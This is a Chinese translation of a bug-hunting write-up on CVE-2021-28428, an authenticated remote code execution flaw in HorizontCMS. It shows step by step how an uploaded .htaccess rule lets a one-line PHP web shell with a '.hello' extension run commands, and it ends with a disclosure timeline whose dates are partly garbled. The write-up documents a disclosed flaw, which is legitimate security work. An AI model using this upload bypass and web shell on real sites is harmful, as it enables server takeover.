






# [CVE-2021–28428]在 HorizontCMS 中发现的已认证 RCE—第 2 部分(PHP 文件类型旁路)

> 原文：<https://infosecwriteups.com/bughunt-authenticated-rce-found-in-horizontcms-part-2-php-filetype-bypass-4580176223eb?source=collection_archive---------3----------------------->


# 介绍

正如我在第 1 部分[**【bug hunt】中谈到的，在 HorizontCMS —第 1 部分(恶意插件)**](https://bigb0ss.medium.com/bughunt-authenticated-rce-found-in-horizontcms-part-1-malicious-plugins-72846f4ab6fe) 博客中发现的经过身份验证的 RCE，我们找到了一种绕过打了补丁的 PHP 文件类型限制上传`.php`文件的方法。然而，执行上传的 PHP 文件并没有完成。

因此，我们想选择不同的路径来上传文件，并在应用程序上执行 PHP 代码。

# 媒体文件上传 RCE

如第 1 部分所述，原始文件上传漏洞([CVE-2020–27387](https://packetstormsecurity.com/files/160046/HorizontCMS-1.0.0-beta-Shell-Upload.html))已通过限制 PHP 扩展进行了补救；然而，我们发现可以通过上传任意的`.htaccess`和`*.hello`文件来绕过过滤器，从而执行 PHP 代码来获得 RCE。

## 问题的复制

1.  登录管理面板(`http://<HorizontCMS IP>/admin/login`)
2.  转到“媒体”→“文件”



3.上传以下`test2.htaccess` →重命名文件名为`.htaccess`

```
**AddType application/x-httpd-php .hello**
```



4.上传另一个如下文件`test2.php` →将文件名重命名为`test.hello`

```
**<?php system($_GET['cmd']); ?>**
```



然后，我们可以看到这两个文件都成功上传到了 HorizontCMS 应用程序的 `/storage`文件夹下。



5.前往`http://<HorizontCMS IP/storage/test.hello?cmd=`寻找 RCE



# 结论

这是我的好友迟的一个好主意:)，并且是在 PHP 应用程序上获得 RCE 的非常有效的文件上传攻击媒介。我们也向 HorizontCMS 报告了这个问题。

## 披露时间表

*   2011 年 3 月 16 日—向 HorizontCMS 报告错误
*   2011 年 3 月 16 日— HorizontCMS 承认该问题
*   2011 年 3 月 16 日——CVE 提出请求(MITRE)
*   05/22/21 — HorizonCMS 发布了安全修补程序
*   04/06/22—CVE—2021–28428 已分配